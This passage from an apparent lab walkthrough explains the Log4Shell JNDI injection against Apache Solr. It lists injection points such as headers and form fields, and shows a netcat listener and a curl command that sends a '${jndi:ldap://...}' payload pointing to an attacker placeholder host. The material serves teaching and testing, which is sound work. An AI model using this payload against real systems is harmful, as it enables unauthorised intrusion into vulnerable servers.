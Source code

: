 - This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack.
- Notice the ldap:// schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol. For the sake of brevity, we will not need to cover all the ins-and-outs and details of LDAP here but know that this is something we will need to work with as we refine our attack.
- For now, know that the target will in fact make a connection to an external location. This is indicated by the ATTACKERCONTROLLEDHOST placeholder in the above syntax. You, acting as the attacker in this scenario, can host a simple listener to view this connection.

> 
##### The next question is, where could we enter this syntax?
##### Anywhere that has data logged by the application.
>

- This is the crux of this vulnerability. Unfortunately, it is very hard to determine where the attack surface is for different applications, and ergo, what applications are in fact vulnerable. Simply seeing the presence of log4j files doesn't clue in on the exact version number, or even where or how the application might use the package.
- Think back. You already discovered that you could supply params to the /solr/admin/cores URL, and now that you have a better understanding of how log4j works, you should understand that this is where you supply your inject syntax. You can simply supply HTTP GET variables or parameters which will then processed and parsed by log4j. All it takes is this single line of text -- and that makes this vulnerability extremely easy to exploit.
- Other locations you might supply this JNDI syntax:
	Input boxes, user and password login forms, data entry points within applications 
	HTTP headers such as User-Agent, X-Forwarded-For, or other customizable headers 
	Any place for user-supplied data
If you would like more information on this JNDI attack vector, please review this [Black Hat USA presentation](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf){:target="_blank" rel="noopener"} from 2016.

#### Testing The Vulnerability
- view your own attacking machine IP address with command:
```bash
ip addr show
```
![5](../assets/img/Log4Shell/03.png)
- Prepare a netcat listener on any port of your choosing
```bash
$ nc -lnvp 9001
Listening on 0.0.0.0 9001
```
- Now that you have a listener staged, make a request including this primitive JNDI payload syntax as part of the HTTP parameters. This can easily be done with the curl command line utility.
```bash
$ curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9001\}'
```
Note, due to the use of the $ dollar-sign character in your syntax, you must ensure you wrap the URL within single-quotes so bash (your command-line shell) does not interpret it as a variable. Additionally, you must escape out the { } curly braces with a single backslash character, so those are not misrepresented in the curl command arguments.
![6](../assets/img/Log4Shell/04.png)
Verify you have received a connection by seeing the following message in your netcat listener:
![7](../assets/img/Log4Shell/05.png)
